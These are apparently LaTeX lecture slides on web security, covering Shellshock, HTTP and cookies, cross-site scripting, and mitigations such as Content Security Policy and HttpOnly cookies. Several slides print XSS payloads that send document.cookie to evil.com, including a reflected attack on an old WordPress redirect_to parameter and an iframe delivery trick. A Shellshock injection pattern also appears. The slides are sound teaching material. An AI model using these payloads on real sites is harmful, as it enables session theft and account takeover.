\begin{frame}
    \titlepage
\end{frame}

\definecolor{bg}{rgb}{0.95,0.95,0.95}

\begin{frame}{last time: command injection}
    \begin{itemize}
        \item placing user input in more complicated language
            \begin{itemize}
            \item SQL
            \item shell commands
            \end{itemize}
        \item input accidentally treated as commands in language
            \begin{itemize}
            \item instead of single value (e.g. argument/string constant)
            \end{itemize}
        \item defenses:
            \begin{itemize}
            \item better APIs: pass constants/etc. seperately
            \item whitelisting acceptable characters
            \item escaping (if done carefully!)
            \item taint-tracking (did you forgot to do one of the above?)
            \end{itemize}
    \end{itemize}
\end{frame}

\newmintinline{perl}{}
\newmintinline{Shell}{}
\newmintinline{SQL}{}

\section{Shellshock}

\begin{frame}{a command injection example}
\end{frame}

\begin{frame}[fragile,label=shellShock]{other shell features}
\begin{itemize}
    \item shells support scripting with ``functions''
\end{itemize}
\lstset{
    language={},style=small,
    moredelim={**[is][\color{red!70!black}]{~in~}{~end~}},
}
\begin{lstlisting}
cr4bd@labunix01:~$ ~in~foo() { echo "called foo; args: $*"; }~end~
cr4bd@labunix01:~$ ~in~foo quux~end~
called foo; args: quux
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=shellShock2]{bash function exports}
\begin{itemize}
    \item bash (popular shell) wanted to transfer functions from one shell to another it runs
    \item mechanism: environment variables 
        \begin{itemize}
            \item Unix/Linux feature; passed to programs automatically
        \end{itemize}
    \item example: \Shellinline|foo() { echo "called foo"; }|, want to export?
    \item set env. var. \texttt{foo} to \fbox{\texttt{() \{echo "called foo"; \}}}
    \vspace{.5cm}
    \item how would you implement this?
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=shellShock3]{bash shellshock}
    \begin{itemize}
        \item if \texttt{foo} set to \fbox{\texttt{() \{...;\}}}
        \item bash ran \fbox{\Shellinline|foo() {...;}|}\\
        \only<2->{\hrulefill}
    \item<2-> if \texttt{foo} set to \fbox{\texttt{() \{...;\}; dangerousCommand}}
    \item<2-> bash ran \fbox{\Shellinline|foo() {...;}; dangerousCommand|}
    \item<2-> define a function; then \myemph{run a command right away}!
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=shellShock4]{shellshock exploitability}
    \begin{itemize}
    \item example: DHCP client runs program to configure a new network
        \begin{itemize}
        \item DHCP: most common ``get connected to a network'' protocol
        \end{itemize}
    \item program is often shell (bash) script --- or uses shell script
    \item easy way to pass information --- environment variables
    \item can contain \myemph{strings from network connected to}
        \begin{itemize}
            \item network: our domain name is \fbox{\texttt{()\{;\}; dangerousCommand}}
            \item set env. var. \texttt{DOMAIN\_NAME} to \fbox{\texttt{()\{;\}; dangerousCommand}}
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{more command injection}
    \begin{itemize}
    \item saw: shell comamnds, SQL
    \item one more very important category: HTML
    \item special name: \myemph{cross-site scripting} or \myemph{XSS}
    \end{itemize}
\end{frame}

\begin{frame}<0>[fragile,label=storedXSS]{stored cross-site scripting}
\begin{tikzpicture}
    \node[draw,thick,inner sep=5mm,align=left,text=red!70!black,align=left] (commentBox) {
\begin{lstlisting}[language={}]
<script>
    document.location = 'http://attacker.com';
</script>
\end{lstlisting}
    };
    \node[anchor=south west] at (commentBox.north west) { Your comment: };
    \node[align=left,anchor=north west] (nameLabel) at (commentBox.south west) {
        Name: 
    };
    \node[draw,font=\tt,thick,inner sep=1mm,align=left,text=red!70!black,anchor=west,minimum width=5cm] at (nameLabel.east) {
        An Attacker
    };
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=storedXSS2]{stored cross-site scripting}
    
\includegraphics[width=\textwidth]{stores-xss}
\end{frame}

\section{Web overall}

\begin{frame}{the web}
    \begin{tikzpicture}
        \node[draw,thick,fill=blue!30] (browser) {
            Web Browser
        };
        \node[draw,thick,fill=green!30,right=2cm of browser] (webSite1) {
            facebook.com
        };
        \node[draw,thick,fill=green!30,below=.5cm of webSite1] (webSite2) {
            foobar.com (uses facebook login)
        };
        \node[draw,thick,fill=red!30,below=.5cm of webSite2] (webSite3) {
            evil.com (run by attacker)
        };
        \draw[thick,Latex-Latex] (browser) -- (webSite1.west);
        \draw[thick,Latex-Latex] (browser) -- (webSite2.west);
        \draw[thick,Latex-Latex] (browser) -- (webSite3.west);
    \end{tikzpicture}
\begin{itemize}
    \item one web browser talks to multiple websites
    \item how does it (or does it) keep each websites seperate?
    \item even though websites can link to each other/etc.?
\end{itemize}
\end{frame}

\begin{frame}{the browser is basically an OS}
    \begin{itemize}
    \item websites are JavaScript programs
    \item websites can communicate with each other
        \begin{itemize}
        \item one website can embed another
        \item cause browser to send requests to another
        \end{itemize}
    \item websites can store data on the browser
        \begin{itemize}
        \item cookies
        \item local storage
        \end{itemize}
    \end{itemize}
\end{frame}

\subsection{HTTP}

\begin{frame}[fragile,label=HTTPReq]{HTTP requests}
\texttt{https://server.com/dir/file?query=string\#anchor} \\
    browser connects to server.com; \textbf{browser} sends:
\begin{framed}
\tt
\myemph<2>{GET}\tikzmark{method} /dir/file?query=string HTTP/1.1 \\
\myemph<3>{Host: \myemph<4>{server.com}\tikzmark{host}} \\
\myemph<3>{\textit{Other-Key}:  \textit{Other-Value}} \\
\ldots \\
~ \\
\end{framed}
    \begin{tikzpicture}[overlay,remember picture]
        \coordinate (overBox) at ([yshift=-2cm]current page.center);
        \tikzset{
            every node/.style={align=left,anchor=center},
        }
        \begin{visibleenv}<2>
        \node[mycallout=method,anchor=center] at (overBox) {
            method: GET or POST most common \\
            GET --- read web page \\
            POST --- submit form
        };
        \end{visibleenv}
        \begin{visibleenv}<3>
        \node[mycallout=host,anchor=center] at (overBox) {
            headers: \\
            extra information with request
        };
        \end{visibleenv}
        \begin{visibleenv}<4>
        \node[mycallout=host,anchor=center] at (overBox) {
            example extra info: domain name from URL \\
            servers can host mutliple domains
        };
        \end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=HTTPResp]{HTTP responses}
\texttt{https://server.com/path/to/file?query=string\#anchor} \\
    after browser sends request; \textbf{server} sends:
\begin{framed}
\tt
HTTP/1.1 200 OK \\
Content-Type: text/html\tikzmark{contentType} \\
\textit{Other-Key}:  \textit{Other-Value} \\
~ \\
<html>\ldots
\end{framed}
    \begin{tikzpicture}[overlay,remember picture]
        \coordinate (overBox) at ([yshift=-2cm]current page.center);
    \end{tikzpicture}
\end{frame}

\begin{frame}{demo}
\end{frame}

\begin{frame}[fragile,label=HTMLForms1]{HTML forms (1)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/search/" method="GET">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Search for: <input name="q" value=""><br>
<input type="submit" value="Search">
</form>
\end{minted}
\begin{framed}
\tt\small
GET /search/?q=What\%20I\%20searched\%20for HTTP/1.1 \\
Host: example.com
\end{framed}
    \begin{itemize}
        \item q is ``\fbox{What I searched for}''
        \item \%20 --- character hexadecimal 20 (space)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLForms2]{HTML forms (2)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Your email: <input name="from" value=""><br>
Your message:<textarea name="message"></textarea>
<input type="submit">
</form>
\end{minted}
\begin{framed}
\tt\small
POST /formmail.pl HTTP/1.1 \\
Host: example.com \\
Content-Type: application/x-www-form-urlencoded \\
~ \\
recipient=webmaster@example.com\&from=\textit{what\%20I\%20Entered}\\\&message=\textit{Some\%20message\%0a\ldots} \\
\end{framed}
\end{frame}

% FIXME: GET forms

\section{Trusting the client}

\begin{frame}[fragile,label=trustCli1]{trusting the client (1)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Your email: <input name="from" value=""><br>
Your message: <textarea name="message"></textarea>
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
        \item if this my form, can I get a recipient of \texttt{spamtarget@foo.com}?
            \begin{itemize}
                \item Am I \myemph{enabling spammers}??
            \end{itemize}
        \item<2> Yes, because attacker could \myemph{make own version of form}
    \end{itemize}
\end{frame}
\begin{frame}[fragile,label=RefererHeader]{Referer header}
Submitting form at \texttt{https://example.com/feedback.html}:
\begin{framed}
\tt\small
POST /formmail.pl HTTP/1.1 \\
Host: example.com \\
Content-Type: application/x-www-form-urlencoded \\
\myemph{Referer: https://example.com/feedback.html} \\
~ \\
recipient=webmaster@example.com\&from=\ldots \\
\end{framed}
    \begin{itemize}
        \item \textbf{sometimes} sent by web browser
        \item if browser always sends, \myemph{does this help?}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=trustCli2]{trusting the client (2)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
    \item can I get a recipient of \texttt{spamtarget@example.com} \myemph{and the right referer header}?
        \begin{itemize}
        \item attacker can't modify the form on example.com!
        \item browser sends header with URL of form
        \end{itemize}
    \item<2> Yes, because attacker can \myemph{customize their browser}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=trustCliNoOne]{trusting the client (3)}
\setlength{\parskip}{0em}
\fontsize{10}{11}\selectfont\tt
ISS E-Security Alert  \\
February 1, 2000 

Form Tampering Vulnerabilities in Several Web-Based Shopping Cart Applications

\ldots

Many web-based shopping cart applications \myemph{use hidden fields in HTML forms} to
hold parameters for items in an online store. These parameters can include
the item's name, weight, quantity, product ID, and \myemph{price}.\ldots

\ldots

Several of these applications use a security method based on \myemph{the HTTP header}
to verify the request is coming from an appropriate site.\ldots

The ISS X-Force has identified \myemph{eleven shopping cart applications} that are vulnerable to form tampering. \ldots

~
\end{frame}

% FIXME: real client-side validation examples

\section{HTTP is stateless}

\begin{frame}{HTTP and state}
    \begin{itemize}
    \item HTTP is stateless
    \item each request stands alone
    \item \myemph{no idea of session}
        \begin{itemize}
        \item current login?
        \item what you did before (pages read, what page you're on, etc.)?
        \item \ldots
        \end{itemize}
    \item this functionality was added on later
    \end{itemize}
\end{frame}

\subsection{Cookies and logins}

\begin{frame}{implementing logins on HTTP}
    \begin{itemize}
        \item typical mechanism: \myemph{cookies}
        \item information for \myemph{client to send} with future requests to server
        \begin{itemize}
            \item limited to \myemph{particular domain} (or domain+path)
        \end{itemize}
    \item Server sets cookie set via header in HTTP response
        \begin{itemize}
            \item \texttt{\fontsize{10}{10}\selectfont Set-Cookie: key=theInfo; domain=example.com; expires=Wed, Apr \ldots}
        \end{itemize}
    \item Client sends back cookie with \myemph{every HTTP request}
        \begin{itemize}
            \item \texttt{\fontsize{10}{10}\selectfont Cookie: key=theInfo}
        \end{itemize}
    \item JavaScript can also read or set Cookie
    \end{itemize}
\end{frame}

\begin{frame}<1>[label=cookieFields]{cookie fields}
    \begin{itemize}
        \item cookie data: whatever server wants; typically \myemph{session ID}
        \begin{itemize}
            \item \myemph{same problems as hidden fields}
            \item usually tied to database on server
            \item supposed to be kept secret by logged-in user
        \end{itemize}
    \item \texttt{domain}: to what servers should browser send the cookie
        \begin{itemize}
            \item \fbox{\texttt{facebook.com}} --- login.facebook.com, www.facebook.com, facebook.com, etc.
        \end{itemize}
    \item \myemph<2>{\texttt{path}: to what URLs on a server should browser send the cookie}
        \begin{itemize}
            \item \fbox{\texttt{/foo}} --- server.com/foo, server.com/foo/bar, etc.
        \end{itemize}
    \item \texttt{expires}: when the browser should forget the cookie
    \item (and more)
    \end{itemize}
\end{frame}

\begin{frame}<1>[label=typLogin]{typical login implementation}
\vspace{-.5cm}
    \begin{tikzpicture}
        \tikzset{
            >=Latex,
        }
        \node[fill=blue!30,minimum height=8cm] (browser) { browser };
        \node[right=11cm of browser,fill=green!30,minimum height=8cm] (server) { \tt foo.com };
        \begin{scope}[>=Latex,ultra thick,every node/.style={font=\tt\small,align=left,inner sep=.25mm},y=1.2cm]
            \draw[->] ([yshift=-.5cm]browser.north east) -- ([yshift=-.5cm]server.north west)
                node[midway,above] { GET /login/ };
            \draw[<-] ([yshift=-1.5cm]browser.north east) -- ([yshift=-1.5cm]server.north west)
                node[midway,above,align=center] { Set-Cookie: SessionID=123456789; expires=\ldots \\ {\normalfont (+ login form)} };
            \draw[->] ([yshift=-3.7cm]browser.north east) -- ([yshift=-3.7cm]server.north west)
                node[midway,above] { POST /login/ \\ Cookie: SessionID=123456789 \vspace{.1cm} \\ user=sillynickname42\&pass=password };
            \draw[<-] ([yshift=-4.5cm]browser.north east) -- ([yshift=-4.5cm]server.north west)
                node[midway,above] { redirect to /frontpage/ };
            \draw[->] ([yshift=-6cm]browser.north east) -- ([yshift=-6cm]server.north west)
                node[midway,above] { GET /frontpage/ \\ Cookie: SessionID=12345789 };
            \draw[<-] ([yshift=-7cm]browser.north east) -- ([yshift=-7cm]server.north west)
                node[midway,above] (frontPage) { \myemph<2>{(frontpage for \textit{sillynickname42})} };
        \end{scope}
        \begin{visibleenv}<2>
            \node[mycallout2=frontPage,anchor=center,align=left] at ($(browser.east)!0.5!(server.west)$) {
                knows it's \textit{sillynickname42} because of cookie \\
                provide same cookie --- must be same browser! \\
                cookie is \myemph{equivalent to username and password}
            };
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}

\subsection{Cookies and XSS}

\begin{frame}[fragile,label=XSSCookies]{cross-site scripting and cookies}
    \begin{itemize}
    \item cross-site scripting: injection into webpage
    \item JavaScript has \myemph{access to cookie} and \myemph{can send it to attacker}
    \end{itemize}
\begin{minted}{HTML}
<script>
    var image = new Image();
    image.src = 'http://evil.com/?cookie=' +
            encodeURIComponent(document.cookie);
</script>
\end{minted}
    \begin{itemize}
    \item try to load ``image'' from evil.com using URL containing cookie
    \item evil.com operator sees cookie value
    \end{itemize}
\end{frame}

\againframe<2>{typLogin}

\begin{frame}<0>[fragile,label=storedXSS]{stored cross-site scripting}
\begin{tikzpicture}
    \node[draw,thick,inner sep=5mm,align=left,text=red!70!black,align=left] (commentBox) {
\begin{lstlisting}[language={}]
<script>
    var image = new Image();
    image.src = 'http://evil.com/?cookie=' +
            encodeURIComponent(document.cookie);
</script>
\end{lstlisting}
    };
    \node[anchor=south west] at (commentBox.north west) { Your comment: };
    \node[align=left,anchor=north west] (nameLabel) at (commentBox.south west) {
        Name: 
    };
    \node[draw,font=\tt,thick,inner sep=1mm,align=left,text=red!70!black,anchor=west,minimum width=5cm] at (nameLabel.east) {
        An Attacker
    };
\end{tikzpicture}
\end{frame}

\begin{frame}{stored cross-site scripting}
    \begin{itemize}
    \item example: forum and forum post can contain javascript
    \item everyone visiting forum will run that JavaScript
        \begin{itemize}
        \item attacker gets cookies from everyone
        \item attacker can pretend to be everyone
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{other cross-site scripting attacks}
    \begin{itemize}
    \item most common cross-site scripting (XSS) problems aren't stored
        \begin{itemize}
        \item nothing like forum on most websites
        \item won't just be automatically shown to all users
        \end{itemize}
    \item but still a problem
    \end{itemize}
\end{frame}

\newmintinline{PHP}{startinline}

\begin{frame}[fragile,label=reflectXSS1]{reflected XSS example}
    \begin{itemize}
        \item WordPress version 1.2.1 (blog software)
    \end{itemize}
\begin{minted}[highlightlines=2,fontsize=\fontsize{12}{13}\selectfont]{PHP}
<input type="hidden" name="redirect_to"
       value="<?php echo $_GET["redirect_to"] ?>" />
\end{minted}
    \begin{itemize}
        \item \PHPinline|$_GET["redirect_to"]| --- form input
            \begin{itemize}
            \item intended to be from hidden field or autogenerated link
            \item \texttt{/login.php?redirect\_to=\fbox{foo}}
            \end{itemize}
\begin{framed}\fontsize{12}{13}\selectfont
\texttt{"> <script>(new Image()).src=\\
'http://evil.com/'+document.cookie;</script>}
\end{framed}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=reflectXSSExploit]{exploiting reflected XSS (1)}
    \begin{itemize}
    \item how does attacker get \myemph{target user to make evil request}
        \begin{framed}\small\tt
            http://example.com/?redirect\_to="><script>(new\\
            Image()).src='http://evil.com'+document.cookie;<script>
        \end{framed}
    \item<2-> just put link/form on any web page, hope user clicks it?
    \end{itemize}
\end{frame}

    \begin{frame}[fragile,label=reflectXSSExploit2]{exploiting reflected XSS (2)}
\begin{itemize}
    \item iframes:
\begin{minted}[fontsize=\small,breakafter==,breaklines,bgcolor=bg]{HTML}
<iframe src="https://example.com/?redirect_to= %22%3E%3Cscript%3Enew+Image...">
</iframe>
\end{minted}
        \vspace{-.5cm}
        \begin{itemize}
        \item iframe: embed another webpage on webpage
        \item example: office hour calendar on our course webpage
        \end{itemize}
    \item JS can ``click'' links/forms
        \vspace{-.5cm}
\begin{minted}[fontsize=\small,breakafter==,breaklines,bgcolor=bg]{HTML}
<form action="https://example.com/">...</form>
<script>document.forms[0].submit()</script>
\end{minted}
    \end{itemize}
\end{frame}

\begin{frame}{aside embedded content}
    \begin{itemize}
    \item it's \myemph{everywhere}
    \item advertisements --- often loaded from other site
    \item embedded Twitter widget, Youtube videos, etc.
    \item newspaper might use externally hosted comments
    \item JavaScript libraries hosted elsewhere
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=xssUserContent]{XSS and user content}
    \begin{itemize}
    \item XSS makes hosting \myemph{user uploaded content} really tricky
    \item example: allow users to upload profile pictures
    \item my ``profile picture'' is this ``image'' file:
\begin{minted}[fontsize=\small]{HTML}
<!DOCTYPE html>
<html><body><script>
var image = new Image();
image.src = "https://evil.com/?cookie=" + document.cookie;
</script></body></html>
\end{minted}
    \item then I have a webpage with:
\begin{minted}[fontsize=\small]{HTML}
<iframe src="https://example.com/get-picture?user=myusername">
\end{minted}
    \end{itemize}
\end{frame}

\begin{frame}{content-types to the rescue?}
    \begin{itemize}
        \item HTTP response headers include a \myemph{Content-Type}
        \begin{itemize}
            \item \fbox{\tt Content-Type: text/html} --- is HTML
            \item \fbox{\tt Content-Type: image/png} --- is PNG-format image
        \item \ldots
        \end{itemize}
    \item \myemph{\textbf{should} prevent this problem} --- if server sends it
        \begin{itemize}
        \item browser should try to display HTML ``profile pic'' as image, not webpage
        \item \ldots even though iframe expects a webpage
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{content-types and browsers}
    \begin{itemize}
    \item a few webservers \myemph{consistently sent the wrong content-type}
        \begin{itemize}
            \item example: send everything as \texttt{text/plain}
        \end{itemize}
    \item browsers sometimes tried to \myemph{compensate}!
    \item example: Internet Explorer before version 8: \\
        \texttt{image/png} is HTML if it looks like HTML
    \item example: many browsers: \\
        \texttt{text/plain} is HTML if it looks like HTML
    \end{itemize}
\end{frame}
% FIXME: real examples

% FIXME --- exfiltrating cookies

% FIXME --- non-stored XSS

% FIXME --- and uploaded content

\section{XSS mitigations}

\begin{frame}{XSS mitigations}
    \begin{itemize}
    \item host dangerous stuff on different domain
    \item Content-Security-Policy
    \item HttpOnly cookies
    \end{itemize}
\end{frame}

\begin{frame}{heuristic detection}
    \begin{itemize}
    \item see if HTML from request is in response
    \item IE 8 implemented this as heuristic
    \item tricky: what if you put something that's supposed to be in page in request?
    \end{itemize}
\end{frame}

\begin{frame}{new domains for uploaded content}
    \begin{itemize}

        \item Google puts uploaded content on \myemph{\texttt{googleusercontent.com}}
        \item Github uses \myemph{\texttt{githubusercontent.com}}
    \item others do similar
    \vspace{.5cm}
    \item these domains \myemph{can't leak sensitive cookies}
    \item \ldots even if sanitization/MIME types/etc. done wrong
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=CSPExs]{Content Security Policy}
    \begin{itemize}
        \item \texttt{Content-Security-Policy}: HTTP header sent to browsers
        \item \fbox{\small \tt Content-Security-Policy: default-src 'self' 'unsafe-inline'}
        \item says ``only load things from \myemph{same host} or \myemph{embedded in webpage}''
            \begin{itemize}
            \item loading image from \texttt{evil.com} will fail
            \end{itemize}
        \item \fbox{\parbox{11cm}{\small \tt Content-Security-Policy: script-src 'none';\\object-src 'none';
            style-src 'self'}}
            \begin{itemize}
            \item disallow all scripts, all plugins (e.g. Flash)
            \item only allow stylesheets from same host (and not inline)
            \end{itemize}
    \end{itemize}

    % FIXME: gmail policy
    %"frame-src https://*.talkgadget.google.com/ 'self' https://hangouts.google.com/ https://talkgadget.google.com/ https://drive.google.com/picker https://ssl.gstatic.com https://accounts.google.com/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.google.com/tools/feedback/ https://support.google.com/inapp/ https://plus.google.com/ https://docs.google.com/ https://clients5.google.com/pagead/drt/dn/ https://clients5.google.com/ads/measurement/jn/ https://clients6.google.com/static/ https://mail.google.com/mail/ https://mail-attachment.googleusercontent.com/attachment/ https://apis.google.com/additnow/ https://notifications.google.com/ https://people-pa.clients6.google.com/static/;script-src https://maps.gstatic.com/ https://*.talkgadget.google.com/ blob: 'self' 'unsafe-inline' 'unsafe-eval' https://hangouts.google.com/ https://talkgadget.google.com/ https://apis.google.com/ https://ajax.googleapis.com/ https://maps.googleapis.com/maps/api/ https://maps.googleapis.com/maps-api-v3/ https://www-onepick-opensocial.googleusercontent.com/gadgets/js/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.gstatic.com/feedback/ https://clients1.google.com/complete/ https://www.gstatic.com/og/ https://www.googleapis.com/appsmarket/ https://www.google.com/tools/feedback/;img-src https: blob: data:;report-uri /cspreport"
\end{frame}

\begin{frame}{Aside: why care about stylesheets?}
    \begin{itemize}
    \item inline stylesheets can steal data
    \item trick: make part of HTML be considered part of CSS URL
    \end{itemize}
\end{frame}

\begin{frame}{Content Security Policy examples}
    \begin{itemize}
        \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: script-src 'self' www.google-analytics.com; object-src 'none'}}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item \myemph{disallow inline scripts}
            \item disallow plugins
        \end{itemize}
    \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: default-src 'none'; img-src 'self' https://\ldots; \ldots}}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=CSPNonces]{CSP nonces}
\begin{minted}[fontsize=\small]{HTML}
Content-Security-Policy: script-src https://foo.com
                                    'nonce-DZJeVASMVs'

...
<script nonce="DZJeVASMVs">
// legitimate embedded script
document...
</script>
\end{minted}
    \begin{itemize}
    \item nonce: ``\textbf{n}umber used only \textbf{once}''
    \item idea: \myemph{changes every time}; attacker can't guess for XSS attack
        \begin{itemize}
        \item browser doesn't enforce that it changes; server's job
        \end{itemize}
    \end{itemize}
\end{frame}

\subsection{Browser filters}


% FIXME: via  iframes and XMLHTTPRequest 

\subsection{HTTP-only cookies}

% FIXME: HTTPOnly cookies

\begin{frame}<1>[label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item \texttt{Set-Cookie: SessionID=123456789; HttpOnly}
    \item ``only send cookie in HTTP''
    \item cookie is \myemph{not available to JS}
    \item eliminates obvious way of exploiting XSS
    \item problem: \myemph<2>{JS can request webpage so cookies are sent}
    \end{itemize}
\end{frame}
